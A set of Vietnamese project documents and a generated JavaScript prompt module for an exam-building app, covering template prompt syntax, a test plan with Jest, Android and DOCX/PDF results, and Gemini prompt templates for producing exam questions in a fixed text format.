- [x] **Preview che mất nền**: slot có `background: white !important`. Nền vẽ qua lớp `::before` theo `opacity`/`fit`; DOCX làm nhạt sẵn ảnh nền đơn theo `opacity` (cảnh báo `BACKGROUND_OPACITY_BAKED`).
- [x] **P3 thiếu hành động** tăng/giảm độ khó, cải thiện lời giải, đổi diễn đạt giữ đáp án (đặc tả P3). Prompt ghi `Muc_Do` mới; validator chấp nhận mức mới chỉ với hai hành động đổi độ khó; `improve-solution`/`restyle-keep-answer` báo `ANSWER_CHANGED` nếu AI đổi đáp án. Hành động lạ bị từ chối.
- [x] **Chia điểm tự động** (câu 18): nút "Chia đều điểm theo thang điểm đề", đơn vị 0,01, phần dư cộng vào các câu cuối. Smoke: 7 điểm/6 câu → 1.16, 1.16, 1.17 ×4.
- [x] **Thiết lập trang thiếu trên UI** (lề, số cột, header/footer, độ đậm và phạm vi nền) cho bản sao tùy chỉnh.
- [x] **DOCX template**: LaTeX làm phẳng bằng `latexToPlainText` như exporter cũ (trước ra `$\sqrt{16}$` thô); câu Đúng/Sai có ô ☐ và đáp án "Đúng/Sai"; tiêu đề phần ghi điểm phần; trang đầu `titlePage` không còn mất số trang.
- [x] **LLM API (OpenAI)**: luôn gửi `temperature: 0.7`, trong khi danh sách model xếp mới nhất trước (GPT-5/o-series) — các model reasoning này trả HTTP 400 với temperature khác mặc định. Đã bỏ tham số; test hợp đồng request bằng fetch giả. Chưa smoke với key thật.
- [x] Nhỏ: thêm sau khi clone đúng phần đã bấm (trước luôn vào phần 1); không cho xóa câu cuối của một phần; lọc gallery Mẫu gốc/Mẫu của tôi, tìm theo mô tả/môn; `/backgrounds` tĩnh dùng cùng `EXAM_BACKGROUNDS_DIR` với route upload; bỏ thông báo cũ "Word chưa nhúng ảnh".
- [x] Kiểm chứng: `npm test -- --runInBand` **35 suite, 490 test đạt**; `npm run gen:prompt` không làm đổi module sinh; `tools/smoke-template-ui.cjs` đạt trên DB/thư mục asset tạm; smoke riêng cho các lỗi trên đạt; ảnh preview nền 0,12 + hai cột T09 đã xem.
- [ ] Còn mở: điểm câu chưa hiện trong trình soạn đề/xuất file cũ sau khi "Mở trong trình soạn đề"; nền/hai cột Android và QA thiết bị thật (như trên).

## Ghi chú

- Cập nhật 12/10/2026: thêm `@napi-rs/canvas` trực tiếp để DOCX raster hóa WebP/SVG an toàn (tối đa 20 MP, cạnh 10.000 px, cạnh PNG đầu ra 2.400 px, đầu ra tối đa 5 MiB). Test OOXML kiểm bytes PNG nhúng.
- Cập nhật 12/10/2026: DOCX background dùng Microsoft Word COM tùy chọn trên Windows để tạo PDF tạm rồi tái sử dụng rasterizer PDF. Test API giả lập đường thành công và fallback.
- Cập nhật 12/10/2026: Word smoke hai trang được raster và xem trực quan: nền riêng từng trang, nội dung overlay đúng tọa độ; 14 trang PDF thật nhập thành 14 ảnh (184.673 byte). `npm test -- --runInBand`: **33 suites, 478 tests passed**. Android Gradle 8.14.3 unit test + assembleDebug đạt (5 tests); emulator smoke vào màn Soạn đề, chưa kiểm đủ template trên thiết bị thật.

- Số slot trong 10 seed là quyết định kỹ thuật cần ghi rõ trong manifest/test, không phải con số do chủ dự án cung cấp.
- Không triển khai OCR, không gọi AI sinh ảnh, không tích hợp Canva API.
- Mọi thay đổi chưa commit trước khi bắt đầu phải được bảo toàn.

```

### FILE: documents/TEMPLATE_SYSTEM_PROMPT_SPEC.md

````markdown
# Đặc tả prompt và cú pháp text template

Ngày lập: 11/10/2026. Hợp đồng `template-text-v1` đã triển khai trong adapter template; parser v1 cũ giữ nguyên cho đề lịch sử.

## Nguồn tập trung

`Gemini_Prompt_Unified.txt` là nguồn cú pháp v1; `backend/llm/promptBuilder.js` trích quy tắc cho API. `AI_Prompts_Variants.txt` chứa gợi ý biến thể cũ, sinh `frontend/promptVariants.js`; `tools/gen-prompt-module.js` sinh `frontend/promptTemplate.js`. Sửa `.txt` nguồn cũ rồi chạy `npm run gen:prompt` và test; không sửa hai module sinh tay. Composer template mới đã tập trung quy tắc/registry năm selector trong `backend/templatePrompts/rules.js`, logic sinh và chuẩn bị áp dụng trong `backend/templatePrompts/index.js`; Gemini Pro có thể nằm trong Gemini. API tự động cũ vẫn theo provider cũ.

## Cú pháp hiện có và phần mở rộng

`TextPromptParser.js` hiện hiểu `=PHAN_...=`, `[CAU_HOI]`, `Loai`, `Muc_Do`, `De_Bai`, lựa chọn `A.`–`D.`, `Dap_An`, `Loi_Giai`, `So_Dong_Nhap`. Loại: `TN`, `DUNG_SAI`, `DIEN_TU`, `TU_LUAN`; mức: `Nhan_Biet`, `Thong_Hieu`, `Van_Dung`, `Van_Dung_Cao`. Parser trả `blocks[]`, không giữ ID phần/slot, điểm và chưa bắt buộc lời giải. Các nhãn `Ma_Khung`, `Ma_Phan`, `Diem` trong `prompt_update.txt` **chưa được parser v1 đọc**. V2 phải parse/validate chúng trước khi ánh xạ; giữ nguyên v1 cho dán đề cũ.

Định dạng template hiện thực (`template-text-v1`): header `=PHAN_1=`, `=PHAN_2=` theo thứ tự phần; mỗi `[CAU_HOI]` có `Ma_Khung: <stable slot ID>`, `Ma_Phan: <stable section ID>`, `Diem: <decimal 0.01>`, rồi các trường v1. `So_Dong_Nhap` phải bằng cấu hình slot hoặc được kiểm báo sai; metadata về vùng trả lời vẫn do template giữ. `backend/templatePrompts/index.js` tách metadata rồi dùng parser v1 cho nội dung; lỗi có vị trí/ID, điểm không đổi theo AI, câu dư/thiếu được báo. P3 validate-only dùng JSON báo cáo schema riêng, không lẫn đầu ra câu hỏi.

```text
=PHAN_1=
[CAU_HOI]
Ma_Khung: builtin.t01.s01.q001
Ma_Phan: builtin.t01.s01
Diem: 0.50
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: 2 + 2 bằng bao nhiêu?
A. 3
B. 4
C. 5
D. 6
Dap_An: B
Loi_Giai: 2 + 2 = 4.
So_Dong_Nhap: 0
```

Đây là ví dụ cú pháp của composer mới, rút gọn từ slot đầu T01; câu hỏi minh họa không phải nội dung seed. Ma_Khung/Ma_Phan phải trùng ID thực trong template được chọn. Đáp án và lời giải đầy đủ là bắt buộc ở đầu ra; subparts a/b/c cùng điểm/đáp án/lời giải riêng vẫn cần kiểm nghiệm theo trạng thái triển khai.

## Ba nhóm prompt động

- **P1 Full:** liệt kê chính xác mọi section/slot, ID, loại, mức, điểm, vùng dòng, tổng điểm và metadata; yêu cầu chỉ xuất text theo grammar v2, không thêm/bớt câu.
- **P2 Partial:** chỉ liệt kê ID chọn, không lặp hoặc thay slot khác; cùng grammar và điểm cố định.
- **P3 Review:** với `validate-only`, trả báo cáo cấu trúc riêng; với sửa/tái sinh, chỉ trả khối câu được chọn và giữ ID/điểm. UI xem diff rồi Apply/Cancel/Undo.
  Hành động P3 (`REPAIR_INTENTS` trong `backend/templatePrompts/rules.js`): `rewrite-one`, `regenerate`, `increase-difficulty`, `decrease-difficulty`, `improve-solution`, `restyle-keep-answer`, `validate-only`. Chỉ hai hành động đổi độ khó được đổi `Muc_Do` (lên/xuống đúng một mức, prompt ghi mức mới, validator đối chiếu mức mới); `improve-solution` và `restyle-keep-answer` báo lỗi `ANSWER_CHANGED` nếu AI đổi đáp án. Hành động khác danh sách bị từ chối.

Mọi nhóm cho phép chỉ dẫn thêm/preset của giáo viên nhưng không được làm yếu quy tắc ID, điểm, số câu và text-only. Biến thể AI chỉ thêm mẹo độ tin cậy; không thay schema. Chủ đề, môn/lớp, độ khó, số dòng và revision lấy từ trạng thái template hiện thời mỗi lần xem/copy. AI không tạo ảnh, nền, Word/PDF hay layout. Ảnh cần thiết chỉ ghi placeholder text để giáo viên upload độc lập.

## Ánh xạ và lỗi

Đầu vào không tin cậy. Parse → validate cú pháp/đủ đáp án, lời giải → đối chiếu ID, loại, điểm, selection → đưa diff. ID khớp là ưu tiên. Thiếu ID chỉ gợi ý theo thứ tự nếu cùng phần/loại và không mơ hồ; mọi trường hợp mơ hồ yêu cầu người dùng chọn. Không ghi đè slot không chọn, không nhập câu thừa, không sửa điểm từ AI. Xem trước bằng text an toàn; không đưa HTML thô từ AI vào DOM. Công thức đi qua pipeline toán hiện có.

````

### FILE: documents/TEMPLATE_SYSTEM_TEST_PLAN.md

```markdown
# Kế hoạch kiểm thử hệ thống template

Ngày lập: 11/10/2026. Baseline M0 thực chạy trên nhánh `feature/chuan-hoa-cong-thuc-toan-latex`: `npm test -- --runInBand` → **27 suite, 422 test qua, 0 lỗi**, 44,92 giây. Baseline gồm các sửa đổi có sẵn chưa commit; kết quả này không chứng minh template M1–M7 đã hoàn tất.

Sau M4 backend asset/import, siết giới hạn file và render PDF, chạy lại cùng lệnh: **33 suite, 456 test qua, 0 lỗi** (14,70 giây). Sau đợt bổ sung header/footer DOCX theo `appearance` và cảnh báo vùng tọa độ tay, chạy lại: **33 suite, 459 test qua, 0 lỗi** (~7,4 giây, `npm test -- --runInBand`); ba test mới nằm trong `tests/templateExport/templateExport.test.js` (header/footer theo cấu hình, T01 tắt footer, cảnh báo `MANUAL_REGION_NOT_APPLIED`). `tests/routes/backgroundRoutes.test.js` có **9/9 test qua** về upload, từ chối file giả/SVG động, trích DOCX, ZIP khai báo giải nén quá lớn, PDF scan, quá 100 trang/quá 1 MB text, render tối đa 10 trang, fallback khi lỗi và mode. `pdf-parse` được mock trong Jest vì fake worker dynamic import không chạy trong cấu hình CJS. Một smoke trực tiếp với PDF một trang tự tạo và `pdf-parse` thật đã cho `getInfo.total=1`, `getScreenshot` trả PNG 960×1242,35 px, 8.898 byte. DOCX được kiểm tra qua OOXML; PDF xuất từ Chrome được trích text và ảnh chụp preview web được xem trực quan. Chưa mở toàn bộ DOCX/PDF trong ứng dụng đọc tài liệu để duyệt từng trang.

Smoke web thực chạy qua Chrome headless CDP bằng `node tools/smoke-template-ui.cjs` (sau khi chạy `npm start` và Chrome với cổng CDP 9222): gallery có 10 mẫu gốc, prompt sinh từ slot, clone, dán text AI rồi validate/diff/Apply vào slot, lưu điểm, PDF bản học sinh trích được nội dung thử nghiệm và không có lời giải. Ảnh chụp preview được xem trực quan trong phiên làm việc. Smoke này chỉ kiểm T01 và không thay thế ma trận QA đủ 10 mẫu. Test DOCX T09/T10 kiểm OOXML hai cột và đoạn đọc; chưa kiểm mắt toàn bộ trang trong Word/PDF reader.

Android: dùng Gradle 8.14.3 từ cache của máy, chạy `:app:testDebugUnitTest :app:assembleDebug --no-daemon --quiet` thành công ngày 11/10/2026. Báo cáo XML: **3 suite, 5 test, 0 lỗi/skip**; APK debug tạo ở `app/build/outputs/apk/debug/ExamBuilder-debug.apk` (17.509.471 byte). Chưa cài/chạy trên thiết bị hoặc giả lập; kết quả build không chứng minh nền/hai cột parity.

## Cổng kiểm thử theo milestone

| Bước | Kiểm chứng tự động bắt buộc | Kiểm chứng thủ công |
| --- | --- | --- |
| M1 model/seed | Đúng 10 ID/tên/thứ tự, số phần/câu cố định theo manifest, seed idempotent, clone sửa được, điểm 0,01, migration v1 | Mở đề cũ trước/sau migration |
| M2 gallery/editor | UI chọn seed/clone, sửa metadata, reorder chỉ trên clone, preview chọn khối, lưu/mở | Bàn phím, theme, màn hình hẹp, drag/up-down |
| M3 prompt/map | P1/P2/P3 × 5 AI, prompt đổi theo revision/metadata, parser v1/v2, thiếu/thừa/trùng ID, điểm lệch, diff/Undo, XSS | Copy qua AI ngoài, dán text hợp lệ, sửa chọn lọc không đổi câu khác |
| M4 asset/import | MIME thực, giới hạn file, ảnh/SVG nguy hiểm, DOCX/PDF native text, scan fallback, thiếu asset | Hai chế độ import, vùng thủ công, ảnh nền trang đầu/giữa/cuối |
| M5 export | HS/GV/key/combined, A4/A5, dọc/ngang, lề, header/footer, số trang, auto/max cảnh báo, T08/T09/T10 | Mở DOCX bằng ứng dụng/OOXML validator và PDF bằng reader/rasterizer; xem trang thật, không lộ đáp án HS |
| M6 sync/Android | v1/v2 round-trip, Gist không chứa binary, checksum/fallback, Kotlin DTO/merge fixtures, Gradle build/test nếu SDK có | Offline với asset có/thiếu/quá lớn, mở/xem/xuất Android |
| M7 regression | Toàn bộ Jest, negative/security, LLM mocked/provider, E2E từ chọn mẫu → dán → xuất → mở lại | Smoke mười seed và mọi biến thể; tài liệu giới hạn thực tế |

## Bằng chứng bổ sung ngày 12/10/2026

- DOCX chứa manual region và nền riêng hai trang đã được Microsoft Word mở/chuyển PDF thật; raster kiểm trực quan cho thấy hai nền khác nhau, nội dung câu ở đúng X/Y trên mỗi trang. Slot tràn vùng quay lại luồng văn bản thường và phát cảnh báo; slot overlay nằm trong ảnh trong suốt có alt text, nên không sửa trực tiếp như đoạn Word.
- PDF 14 trang tạo bằng Word được gửi qua `/api/backgrounds/import`; API trả đủ 14 PNG 960×1358, tổng 184.673 byte cùng asset ID/SHA-256/MIME. Test PDF vượt 100 trang giữ file gốc và trả manifest/fallback để tải xuống thay vì cắt file.
- `maxPages=1` với tài liệu hai trang tạo cảnh báo ước lượng, vẫn giữ cả hai trang sau Word render. Phân trang DOCX/PDF vẫn phụ thuộc Word/trình duyệt khi người dùng in; estimate không đảm bảo số trang tuyệt đối trên mọi máy/font.
- DOCX import-as-background cần Microsoft Word trên Windows. Trường hợp không có Word/lỗi được test fallback; Windows smoke thật đã chạy. Linux/macOS không raster DOCX và dùng fallback tải file gốc.
- Export smoke đã đọc lại DOCX thật cho cả 10 seed ở 4 chế độ (student/teacher/answer_key/combined). `npm test -- --runInBand` đạt **33 suite, 478 test**.
- Asset binding tạo manifest SHA-256, role, page number, `reference_only`, fallback; ảnh nhị phân không đi theo Gist. Android báo số tài nguyên tham chiếu ngoài khi render layout cơ bản.
- Benchmark DOCX 500 slot trong môi trường hiện tại: 15.546 byte, 85 ms; đây không phải cam kết hiệu năng trên mọi máy.
- Android Gradle 8.14.3 `:app:testDebugUnitTest :app:assembleDebug --no-daemon --quiet` thành công; 3 suite, 5 test, 0 lỗi. `adb devices -l` không có thiết bị kết nối nên QA thao tác thật chưa làm.
- Emulator Android mở được app tới màn Soạn đề; chưa chạy QA đủ mẫu vì smoke đó chỉ kiểm khởi động. Thiết bị thật chưa có.
- Regression cuối: `npm test -- --runInBand` — **33 suite, 478 test qua, 0 lỗi**.

## Bằng chứng rà soát ngày 13/10/2026

- `npm test -- --runInBand`: **35 suite, 490 test qua, 0 lỗi** (thêm `tests/parser/examRedaction.test.js`, `tests/llm/OpenAIProvider.test.js`, test P3, test DOCX LaTeX/Đúng-Sai/điểm phần, kiểm pixel ảnh nền làm nhạt và WebP, test link chia sẻ không lộ đáp án).
- Smoke Chrome headless trên server cổng 3456 với `EXAM_DB_PATH`/`EXAM_BACKGROUNDS_DIR`/`EXAM_TEMPLATE_ASSETS_DIR` tạm (không đụng dữ liệu thật): `tools/smoke-template-ui.cjs` đạt; smoke riêng kiểm lọc gallery, thiết lập trang, chia điểm, `is_correct` khi chuyển sang trình soạn đề, hành động P3, link chia sẻ không có lời giải. Ảnh preview T09 có nền 0,12 đã xem.
- Chưa chạy: vùng tọa độ tay trên PDF nền thật trong trình duyệt; DOCX mở bằng Word cho các thay đổi lần này (chỉ đọc OOXML/mammoth); Android không đổi mã nên không chạy lại Gradle.

## Fixture tối thiểu

- Một đề cho mỗi T01–T10 với manifest count; T08 có vùng lời giải nhiều dòng, T09 hai cột thật, T10 đoạn đọc và câu hỏi gắn đoạn.
- V1 đề đang lưu và text prompt cũ; v2 đầy đủ, v2 partial, ID sai/trùng, sai loại, sai điểm, thiếu đáp án/lời giải, chữ HTML/script, công thức LaTeX.
- Điểm lẻ 0,01 với tổng chính xác; subparts a/b/c; trang vượt MAX-PAGES; nền đầu/giữa/cuối; asset thiếu/checksum sai.
- DOCX có đoạn/bảng/ảnh, PDF native text, PDF scan không có text, SVG nguy hiểm, file giả MIME và quá lớn.
- Gist/library hai thiết bị với đề v1/v2, tombstone, thiếu binary; Kotlin đọc cùng JSON fixture.

## Ma trận QA thủ công

Với **mỗi T01–T10**, xác nhận tên, count/structure gốc sau restart, điền slot, clone rồi sửa, xem HS/GV, xuất PDF/DOCX và mở lại. Với **mỗi nhóm P1/P2/P3** chọn lần lượt **ChatGPT, Claude, Gemini, DeepSeek, Grok**; kiểm prompt cập nhật theo điểm/số dòng/chủ đề, Copy Prompt, dán phản hồi hợp lệ và không hợp lệ. Riêng P2/P3 xác nhận các slot ngoài selection giữ nguyên; P3 kiểm diff, Cancel, Apply, Undo. Kiểm cả bản key riêng/gộp, nền in và nhiều mã đề.

Chạy `npm test -- --runInBand` sau mỗi milestone và ghi số thật vào file tiến trình. Chỉ báo pass khi đã chạy; nếu thiếu Android SDK hoặc ứng dụng đọc/raster PDF, ghi rõ bước bỏ qua và lệnh/thiết bị cần thiết. Không coi parser unit test là bằng chứng file xuất nhìn đúng.

```

### FILE: frontend/promptVariants.js

```javascript
// TU DONG SINH tu AI_Prompts_Variants.txt bang tools/gen-prompt-variants.js -- DUNG SUA TAY.
// Nguon rieng (intro/tip/vi du) la AI_Prompts_Variants.txt o goc du an; quy tac dinh dang dung
// chung van lay tu Gemini_Prompt_Unified.txt. Sua o do roi chay: npm run gen:prompt
export const AI_PROMPT_VARIANTS = [
  {
    id: "gemini",
    label: "Gemini (thường)",
    hint: "Dán vào Gemini bản chat thường tại gemini.google.com hoặc app Gemini trên điện thoại (khác với tab \"Tự động\" trong ExamBuilder — tab đó gọi Gemini qua API ngay trong phần mềm).",
    exampleTopic: "Toán 6 - Số nguyên",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO GEMINI: Nếu câu trả lời có nguy cơ bị dừng giữa chừng do giới hạn độ dài, hãy ưu tiên viết trọn vẹn từng câu hỏi (đủ cả "Dap_An:" và "Loi_Giai:") rồi mới dừng, không bỏ dở một câu đang viết. Nếu bạn tự chèn dấu ** hoặc gạch đầu dòng markdown, hãy xuất lại không dùng markdown.`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính (-5) + 3 là bao nhiêu?
A. -2
B. 2
C. -8
D. 8
Dap_An: A
Loi_Giai: (-5) + 3 = -(5 - 3) = -2, vì |-5| > |3| nên kết quả mang dấu âm.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Giá trị của biểu thức $(-2)^{3} + \\sqrt{16}$ bằng bao nhiêu?
A. -4
B. 4
C. -12
D. 12
Dap_An: A
Loi_Giai: $(-2)^{3} = -8$ và $\\sqrt{16} = 4$, nên -8 + 4 = -4.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Tích của hai số nguyên âm luôn là một số nguyên dương.
Dap_An: Dung
Loi_Giai: Theo quy tắc dấu: (-) x (-) = (+), nên tích của hai số nguyên âm luôn là số dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Điền số thích hợp vào chỗ trống: |-12| + |-8| = ___
Dap_An: 20
Loi_Giai: |-12| = 12, |-8| = 8, suy ra 12 + 8 = 20.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Một chiếc tàu ngầm đang ở độ sâu 45m so với mực nước biển. Tàu di chuyển lên 20m rồi tiếp tục lặn xuống 30m. Hỏi tàu ngầm đang ở độ sâu bao nhiêu mét so với mực nước biển? Trình bày lời giải bằng phép tính với số nguyên.
So_Dong_Nhap: 6
Loi_Giai: Độ sâu ban đầu: -45m. Sau khi lên 20m: -45 + 20 = -25m. Sau khi lặn xuống 30m: -25 - 30 = -55m. Vậy tàu ngầm đang ở độ sâu 55m so với mực nước biển.`,
  },
  {
    id: "gemini_pro",
    label: "Gemini Pro",
    hint: "Dán vào Gemini Pro (gói Gemini Advanced / Google One AI Premium) tại gemini.google.com, chọn model 2.5 Pro (hoặc bản Pro mới nhất) — mạnh hơn bản Gemini thường ở khả năng suy luận và độ dài ngữ cảnh.",
    exampleTopic: "Sinh học 8 - Hệ tuần hoàn",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
